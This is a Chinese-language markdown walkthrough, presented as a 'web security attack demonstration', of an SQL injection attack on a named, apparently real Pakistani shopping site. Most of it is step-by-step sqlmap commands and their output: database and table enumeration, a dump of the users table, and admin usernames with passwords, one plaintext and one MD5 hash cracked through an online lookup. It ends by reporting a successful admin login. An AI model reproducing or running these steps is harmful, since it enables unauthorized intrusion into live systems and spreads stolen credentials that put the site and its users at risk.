 ﻿---
title: web安全攻击演示
---

标签（空格分隔）： webSec

---

## 0x00 目标,境外站
```
http://www.atrium.com.pk/Shopping.php?ID=1
```

![](http://thyrsi.com/t6/365/1535803998x1822611383.png)

## 0x01 根据站的特点 .php?ID=1，尝试sql注入

![](http://thyrsi.com/t6/365/1535804411x-1404793184.jpg)

## 0x02 注入
### step1 工具
- sqlmap
- Ubuntu
  安装：sudo apt install sqlmap
### step2 注入
```
sqlmap -u http://www.atrium.com.pk/Shopping.php?ID=1
```
![](http://thyrsi.com/t6/365/1535805342x1822611437.jpg)
### step3 查数据库
```
sqlmap -u http://www.atrium.com.pk/Shopping.php?ID=1 --dbs --current-user 
```
![](http://thyrsi.com/t6/365/1535805503x-1404793154.jpg)
### step4 查表
```
sqlmap -u http://www.atrium.com.pk/Shopping.php?ID=1 -D  db738736812 --tables
```
```
Database: db738736812                                                                                                                      
[51 tables]
+--------------------------+
| about_website            |
| address                  |
| banners                  |
| bestsellers              |
| brands                   |
| categories               |
| daily_deal               |
| discount_coupons         |
| emails                   |
| entertainments           |
| events                   |
| feature_products         |
| features                 |
| footer_categories        |
| footer_links             |
| homeboxes                |
| infopages                |
| logos                    |
| mainbanners              |
| menu                     |
| middle_message           |
| multimedia               |
| newsletter_subscribers   |
| newsletters              |
| newsline                 |
| order_cancel_reasons     |
| order_status             |
| orders                   |
| other_countries_shipping |
| p_options                |
| p_options_values         |
| p_stocks                 |
| payment_methods          |
| product_options          |
| product_reviews          |
| products                 |
| roles                    |
| seo                      |
| shipping_rates           |
| shippings                |
| slider                   |
| sliders                  |
| socialmedia              |
| telephones               |
| thumbnails               |
| topbrands                |
| topmessage               |
| upsaleproducts           |
| user_groups              |
| users                    |
| website_users            |
+--------------------------+
```
### step5 查表的结构
```
sqlmap -u http://www.atrium.com.pk/Shopping.php?ID=1 -D  db738736812 -T users --columns
```
```
Table: users
[13 columns]
+--------------+------------+
| Column       | Type       |
+--------------+------------+
| Admin        | tinyint(1) |
| DateAdded    | datetime   |
| DateModified | datetime   |
| EmailAddress | text       |
| FirstName    | text       |
| ID           | int(11)    |
| LastName     | text       |
| Password     | text       |
| PerformedBy  | int(11)    |
| Role         | int(11)    |
| Status       | tinyint(1) |
| UserGroup    | tinyint(1) |
| UserName     | text       |
+--------------+------------+
```
### step6 脱库
```
sqlmap -u http://www.atrium.com.pk/Shopping.php?ID=1 -D  db738736812 -T website_users -C "Email,IP,Password,Successfull" --dump
```
![](http://thyrsi.com/t6/366/1535807070x-1376440138.jpg)

**有些密码是hash的需要Hash碰撞(社工库)**
```
sqlmap -u www.atrium.com.pk/Shopping.php?ID=1 -D  db738736812 -T users -C "Admin,EmailAddress,Password,UserName" --dump

Database: db738736812
Table: users
[2 entries]
+-------+--------------+----------------------------------+------------+
| Admin | EmailAddress | Password                         | UserName   |
+-------+--------------+----------------------------------+------------+
| 1     | <blank>      | c91ed8edc09b94e28ba6e827005eabb8 | Atrium786  |
| 1     | <blank>      | demo@123                         | Atrium1786 |
+-------+--------------+----------------------------------+------------+

```
```
http://www.dmd5.com/md5-decrypter.jsp

碰撞成功！

密文：c91ed8edc09b94e28ba6e827005eabb8

碰撞结果：Atriummallz@786

密文类型：md5

解密用时：1135毫秒
```

### step7 验证username 和password
```
http://www.atrium.com.pk/Login
```
登陆正确
![](http://thyrsi.com/t6/366/1535807368x-1404781240.jpg)

